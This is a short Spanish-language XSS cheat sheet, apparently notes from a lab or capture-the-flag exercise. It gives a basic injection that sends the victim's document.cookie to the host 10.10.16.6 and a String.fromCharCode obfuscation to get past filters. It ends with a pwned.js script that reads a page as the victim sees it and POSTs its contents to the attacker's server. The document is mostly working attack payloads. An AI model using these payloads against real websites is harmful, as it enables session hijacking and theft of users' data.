 # XSS

## Inyección básica
```null
<img src="asd><script>document.location("http://10.10.16.6/?cookie=' + document.cookie + '</script>">
``` 

## Técnicas de bypass

## Uso de String.fromCharacter()

### Creación de secuencia de caracteres
```null
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> cadena = """document.write('<script src="http://10.10.16.6/pwned.js"></script>');"""
>>> for character in cadena:
...     print(ord(character))
```

### Nuevo payload
```null
<img src="asd><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,54,46,54,47,112,119,110,101,100,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">
```

## Ejemplo de ``pwned.js`` (Dumpeo del contenido tal y como lo ve el otro usuario)
```null
var peticion = new XMLHttpRequest();
peticion.open('GET', 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65', false);
peticion.send();

var respuesta = peticion.responseText;

var peticion2 = new XMLHttpRequest();
peticion2.open('POST', 'http://10.10.16.6:81/codigofuente', true);
peticion2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');

var respuestacoded = encodeURIComponent(respuesta);
peticion2.send(respuestacoded);
```

